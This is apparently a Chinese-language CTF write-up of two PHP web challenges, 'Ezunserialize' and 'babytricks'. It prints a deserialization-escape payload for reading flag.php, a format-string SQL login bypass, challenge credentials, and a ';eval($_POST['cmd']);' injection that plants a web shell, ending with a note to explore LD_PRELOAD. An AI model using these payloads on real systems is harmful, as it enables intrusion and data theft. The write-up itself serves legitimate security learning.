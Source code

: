 ```yaml
---
layout: post
title: 
data: 
categories: 
tags: 
description: 
excerpt_separator: ""
---
```


# Ezunserialize

## 题目描述

直接给了源码：

```php
<?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
```

## 解题思路

思路很明确由B类到C类读取flag.php，不过看起来只能传入给A类的字符串，需要序列化逃逸。

read()函数会将`'\0\0\0'`替换为`"\0*\0"`，注意一下，前者由单引号围绕，不表示转义，即包含6个字符，而后者由双引号包围，转义为空白符，即包含三个字符。

先构造理想的序列化字符串：

```php
<?php
$c = new C();
$b = new B();

$c->c = "flag.php";
$b->b = $c;
echo serialize(new A("foo", $b));
?>
```

结果：

```php
O:1:"A":2:{s:8:"username";s:3:"foo";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```

需要吞掉24个字符，于是提交的序列化字符串为：

```shell
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:74:";";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
```

Payload：

```
?a=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0
&b=%3B%22%3Bs%3A8%3A%22password%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A1%3A%22c%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```

## 备注

1. 这道题就是完全没有注意到单引号，一直在想属性的访问控制什么的。

# babytricks

## 题目描述

一个登录框，源码中有提示

```html
<!-- tips:select * from user where user='$user' and passwd='%s'-->
```

## 解题思路

很明显的格式化字符串，Payload：

```
POST：user=admin%1$c
passwd=39
```

有个跳转，输出了一个数组：

```
Array(
    [0] => 1
    [id] => 1
    [1] => admin
    [user] => admin
    [2] => GoODLUcKcTFer202OHAckFuN
    [passwd] => GoODLUcKcTFer202OHAckFuN
)
```

应该是账号密码了，然后说前台什么都没有了，那就去后台，扫一下目录，可以看到源码：

```php
Your sandbox: ./shells/LYmjizTyfRfRj1bz/ set your shell
<?php
error_reporting(0);
session_save_path('session');
session_start();
require_once './init.php';
if($_SESSION['login']!=1){
    die("<script>window.location.href='./index.php'</script>");
}
if($_GET['shell']){
    $shell= addslashes($_GET['shell']);
    $file = file_get_contents('./shell.php');
    $file = preg_replace("/\\\$shell = '.*';/s", "\$shell = '{$shell}';", $file);
    file_put_contents('./shell.php', $file);
}else{
    echo "set your shell"."<br>";
    chdir("/");
    highlight_file(dirname(__FILE__)."/admin.php");
}
?>
```

很简单：

```
?shell=;eval($_POST['cmd']);
```

然后发现执行系统命令的很多函数被禁用了，结合题目给了so文件，说明要LD_PRELOAD。

## 备注

1. LD_PRELOAD这里要深入一下了。